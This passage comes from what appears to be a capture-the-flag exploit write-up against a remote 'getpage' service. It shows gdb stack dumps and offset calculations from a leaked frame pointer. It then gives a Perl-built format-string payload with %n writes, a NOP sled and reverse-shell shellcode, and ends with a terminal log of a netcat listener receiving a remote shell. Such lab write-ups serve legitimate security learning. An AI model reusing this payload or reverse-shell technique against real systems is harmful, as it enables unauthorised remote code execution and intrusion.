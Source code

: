 ```assembly
rbp            0x7fffffffdcc0	0x7fffffffdcc0
rsp            0x7fffffffd9f0	0x7fffffffd9f0
(gdb) x/64xg $rsp
0x7fffffffd9f0:	0x0000000500000006	0x00007fffffffdee0
[..... TRUNCATED FOR BREVITY .....]
0x7fffffffdcc0:	0x00007fffffffe100	0x00000000004012cc
```
0x4012cc is the return address of getpage(). Just before is the stored value of ebp, which is at
address 0x7fffffffdcc0. Remember the output dump that we got at the beginning?
```
	<!-- 512 bytes recieved -->
	AAAAffffbea0140737351866848|140737348895744|140737354069824|0|
	.....
	2701162983232373248|4199320|4155044400|80|140733193388045|6310544|17039950270|140737351861824|2|
	140737488350384|4199116|140737488350616
```
Let's search for the address 0x4012cc (4199116). Just before there's the value: 140737488350384 
(0x7fffffffecb0). Bingo!

	Old ebp in my machine    : 0x00007fffffffe100
	Old ebp in remote machine: 0x00007fffffffecb0

The difference is 0xbb0 = 2992 bytes. If the shellcode (or the nop sled) on my machine starts at 
0x7fffffffdb40, it will start at 0x7fffffffdb40+0xbb0 = 0x7fffffffe6f0 on remote machine (no ASLR).

One more time, let's update the format string to overwrite the new address:
	Old : 0x40	0xdb	0xff	0xff	0xff	0x7f	0x00	0x00
	New : 0xf0	0xe6	0xff	0xff	0xff	0x7f	0x00	0x00
```
	perl -e 'print "AAA%237x" .                                           \
	"%038\$nCC%244x"."%039\$nCC%023x"."%040\$nCC%254x"."%041\$nCC%254x".  \
	"%042\$nCC%126x"."%043\$nCC%127x"."%044\$nCC%254x"."%045\$nCCCCCCC".  \
    "\x78\x20\x60\x00\x00\x00\x00\x00"."\x79\x20\x60\x00\x00\x00\x00\x00".\
	"\x7a\x20\x60\x00\x00\x00\x00\x00"."\x7b\x20\x60\x00\x00\x00\x00\x00".\
	"\x7c\x20\x60\x00\x00\x00\x00\x00"."\x7d\x20\x60\x00\x00\x00\x00\x00".\
	"\x7e\x20\x60\x00\x00\x00\x00\x00"."\x7f\x20\x60\x00\x00\x00\x00\x00".\
	"\x90"x100 .                                                          \
	"\x31\xf6\xf7\xe6\xff\xc6\x6a\x02\x5f\x04\x29\x0f\x05\x50\x5f\x52\x52\xc7\x44\x24\x04\x80\xd3\xbd\x54\x66\xc7\x44\x24\x02\x11\x5c\xc6\x04\x24\x02\x54\x5e\x6a\x10\x5a\x6a\x2a\x58\x0f\x05\x6a\x03\x5e\xff\xce\xb0\x21\x0f\x05\x75\xf8\x56\x5a\x56\x48\xbf\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x57\x54\x5f\xb0\x3b\x0f\x05".\
	"A"x40'
```
Now launch the attack:

___
```
--------------- TERMINAL 1 ---------------
root@xrysa4 # perl -e 'print "our_buffer"' | nc -nvvl -p80
	Listening on [0.0.0.0] (family 0, port 80)

--------------- TERMINAL 3 ---------------
ispo@xrysa4 ~ $ echo "GET http://ispo.ddns.net/"  | nc7-vv pwnxy.haxdump.com 1337

--------------- TERMINAL 2 ---------------
ispo@xrysa4 ~ $ nc -nlvv -p 4444
	Listening on [0.0.0.0] (family 0, port 4444)
	Connection from [54.153.72.141] port 4444 [tcp] accepted (family 2, sport 54847)
	whoami
		pwnxy
	pwd 
		/
	cd home
	ls -l
		total 8
```